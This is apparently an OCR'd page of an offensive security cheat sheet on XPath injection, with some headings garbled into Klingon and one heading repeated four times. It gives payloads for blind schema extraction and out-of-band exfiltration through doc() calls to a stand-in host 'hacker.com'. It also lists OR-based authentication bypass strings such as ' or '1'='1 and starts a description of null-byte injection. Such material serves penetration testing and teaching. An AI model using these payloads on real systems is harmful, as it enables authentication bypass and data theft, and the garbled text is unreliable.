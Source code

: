 ```python
</f>
</c>
</root>

and name(/*[1]) = "root" #Confirm the name of the first tag is "root"
and substring(name(/*[1]/*[1]),1,1) = "a" #First char of name of tag `<a>` is "a"
and string-to-codepoints(substring(name(/*[1]/*[1]/*),1,1)) = 105 #Firts char of tag `<b>`is codepoint 105 ("i") (https://codepoints.net/)

#Stealing the schema via OOB
doc(concat("http://hacker.com/oob/", name(/*[1]/*[1]), name(/*[1]/*[1]/*[1])))
doc-available(concat("http://hacker.com/oob/", name(/*[1]/*[1]), name(/*[1]/*[1]/*[1])))
```
## qo'noSqa' jImej

### **Example of queries:**
```
string(//user[name/text()='+VAR_USER+' and password/text()='+VAR_PASSWD+']/account/text())
$q = '/usuarios/usuario[cuenta="' . $_POST['user'] . '" and passwd="' . $_POST['passwd'] . '"]';
```
### **OR bypass in user and password (same value in both)**

#### **OR bypass in user and password (same value in both)**

##### **OR bypass in user and password (same value in both)**

###### **OR bypass in user and password (same value in both)**
```
' or '1'='1
" or "1"="1
' or ''='
" or ""="
string(//user[name/text()='' or '1'='1' and password/text()='' or '1'='1']/account/text())

Select account
Select the account using the username and use one of the previous values in the password field
```
### **QaD jatlhqa' null injection**

---

#### **Description**

Null injection is a technique used to exploit vulnerabilities in applications that use XPath queries to retrieve data from XML documents. By injecting a null character (`\x00`) into the XPath query, an attacker can bypass input validation and potentially retrieve sensitive information or manipulate the application's behavior.

